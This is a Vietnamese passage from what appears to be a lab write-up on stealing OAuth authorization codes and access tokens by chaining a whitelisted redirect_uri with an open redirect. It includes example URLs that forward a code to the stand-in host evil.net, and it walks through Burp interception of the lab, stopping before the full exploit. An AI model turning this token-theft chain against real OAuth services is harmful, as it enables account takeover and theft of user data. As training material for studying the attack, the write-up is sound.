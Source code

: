  Phía back-end có thể được hiểu thành:

  ```
  https://client-app.com/example/path
  ```

  Sau khi đã xác định được trang khác ta có thể thiết lập làm URI chuyển hướng, ta cần kiểm tra chúng để tìm đường rò rỉ query/fragment (nơi code/token nằm).

  Đối với authorization code flow, ta cần tìm một lỗ hổng cho phép đọc query param, trong khi đối với loại implicit grant type, ta cần trích xuất URL fragment. Một trong   những lỗ hổng hữu ích nhất cho mục đích này là open redirect, sử dụng nó như một "proxy".

  Giả sử, ta bypass được whitelist để redirect tới một endpoint hợp lệ của app:

  ```url
  https://victim.com/redirect?next=https://evil.net
  ```

  tức là ***redirect_uri=https://victim.com/redirect*** là một endpoint hợp lệ trong whitelist mà ta tìm được, tuy nhiên nó tồn tài lỗ hổng *open redirect* → Khi user bị   redirect về đây, victim.com sẽ 302 tiếp sang https://evil.net.

  Do đó, mà OAuth flow sẽ trả về như sau và ta vẫn thu được code/token:

  ```url
  https://victim.com/redirect?next=https://evil.net?code=ABC123
  ```

- Với implicit grant type, toàn quá trình được diễn ra qua browser và token xuất hiện ngay trên URL fragment trong browser. Nếu attacker lấy được access token này → có thể gọi trực tiếp API của OAuth Resource Server. Nghĩa là không chỉ login vào app nạn nhân, mà còn có thể query dữ liệu user (email, danh bạ, file, …) ngoài phạm vi app web.

### Lab: Stealing OAuth access tokens via an open redirect

- Giao diện trang web ta thực hiện khai thác:

  <img width="1912" height="944" alt="image" src="https://github.com/user-attachments/assets/a09f7850-b066-4c60-85ca-6480f067ec40" />

- Tương tư, các bài lab trên, web cho phép đăng nhập liên kết với social media, ta thực hiện đăng nhập với một tài khoản social của mình là: *wiener:peter*:

  <img width="1918" height="939" alt="image" src="https://github.com/user-attachments/assets/feaa3099-b04e-4b81-99ea-24a43875e131" />

- Trong Proxy Interception của Burp, ta nhận thấy web thực hiện một cuộc gọi API tới userinfo endpoint là /me, sau đó sử dụng dữ liệu mà nó lấy để đăng nhập.
  
  <img width="1574" height="512" alt="image" src="https://github.com/user-attachments/assets/fb7f47f3-5fc2-4d7a-b421-32c0c2f3f9ea" />

  Cùng với đó là requets: */auth?client_id...*

  <img width="1574" height="513" alt="image" src="https://github.com/user-attachments/assets/7c4ca80a-8d18-4bb2-bdc2-ccbf96cb41cd" />

  Ngoài ra, với GET request *GET /auth?client_id=[...]*, khi thực hiện thay đổi tham số *redirect_uri* trong rồi thực hiện gửi lại cho OAuth trong Repeater, ta nhận thấy   tham số này đang được xác thực theo một whitelist được đăng ký:
